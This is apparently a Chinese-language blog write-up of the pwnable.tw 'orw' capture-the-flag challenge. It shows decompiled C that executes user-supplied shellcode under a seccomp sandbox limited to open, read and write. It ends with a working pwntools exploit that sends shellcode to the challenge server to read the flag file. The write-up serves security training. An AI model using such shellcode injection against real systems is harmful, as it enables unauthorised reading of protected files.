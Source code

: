 ```yaml
---
title: pwnable.tw::orw
date: 2023-10-17 21:29:57
tags: pwn
---
```


## 保護機制
Canary, Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
### orw_seccomp
```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```
在C語言有一種”SandBox模式”, 限制程式只能使用 `open()`, `read()`, `write()`

可以通過`seccomp()`` 或是`prctl()`開啟

所以這裡的邏輯不重要, 只要知道只能 open, read, write就好

也不用繞canary, 因為沒有Control PC

## exploit
```python
#!/usr/bin/env python2 

from pwn import *
import pwnlib.shellcraft

p = remote('chall.pwnable.tw', 10001)

context.log_level = 'debug'

shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)

p.sendlineafter('Give my your shellcode:', asm(shellcode))

print p.recv()

p.close()
```